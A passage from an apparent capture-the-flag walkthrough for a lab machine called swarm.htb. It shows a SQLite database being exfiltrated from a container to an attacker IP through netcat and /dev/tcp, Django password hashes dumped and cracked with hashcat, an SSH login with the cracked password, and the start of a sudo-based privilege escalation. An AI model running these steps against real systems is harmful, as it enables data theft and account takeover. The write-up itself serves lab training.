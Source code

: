 ```bash
```

We see a `db.sqlite3` file, which we exfiltrate and enumerate for possible password hashes.

```bash
# Locally
nc -nlvp 4444 > db.sqlite3   
listening on [any] 4444 ...
# In Docker
root@0efa04a66079:/app# cat < db.sqlite3 > /dev/tcp/10.10.14.40/4444
```

We get three hashes:

```sqlite
sqlite> select * from auth_user;

1|pbkdf2_sha256$60$9jLMaflzyx1C3dAsBqZs8m$1H64ybyNv6NWUIw+TIaYE40VIW9enXe88teW5X+cQEI=|2024-04-30 16:32:56.994788|1|admin|Administrator|admin@swarm.htb|1|1|2022-04-06 01:44:10|Melo
2|pbkdf2_sha256$60$HXF8aUc1IWkR9ajH3y8LS8$d7MFlG+lVPC03n31bt4u6OvGs7z1hJpiUYp5eGHoAZM=|2022-04-06 08:16:01|0|ChasingDeadlines|Loman|cloman@swarm.htb|0|1|2022-04-06 08:14:40|Chase
3|pbkdf2_sha256$60$6oJcB6Vhj9eECUQS5VgZME$Ha25+TiE5JozOAyUEeN0VTKN27/aNXeWuAp95JXUYFg=||0|PenniesForThoughts|Lessing|plessing@swarm.htb|1|1|2024-04-25 12:07:58|Penny
```

We save the hashes to a file and feed them to `hashcat`, mode `10000` for Django `pbkdf2`.

```bash
hashcat -m 10000 hash --wordlist /usr/share/wordlists/rockyou.txt

<...SNIP....>
pbkdf2_sha256$60$6oJcB6Vhj9eECUQS5VgZME$Ha25+TiE5JozOAyUEeN0VTKN27/aNXeWuAp95JXUYFg=:pennypenny99
```

After about thirty seconds, we obtain the password `pennypenny99`, for `Penny Lessing`'s account. We try to SSH into the machine using the credentials, with her email username being the one to use:

```bash
ssh plessing@swarm.htb
```

# Privilege Escalation

We check the `sudo` permissions.

```bash
plessing@swarm:~$ sudo -l

Matching Defaults entries for plessing on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User plessing may run the following commands on localhost:
    (root : root) /usr/bin/docker swarm *
```
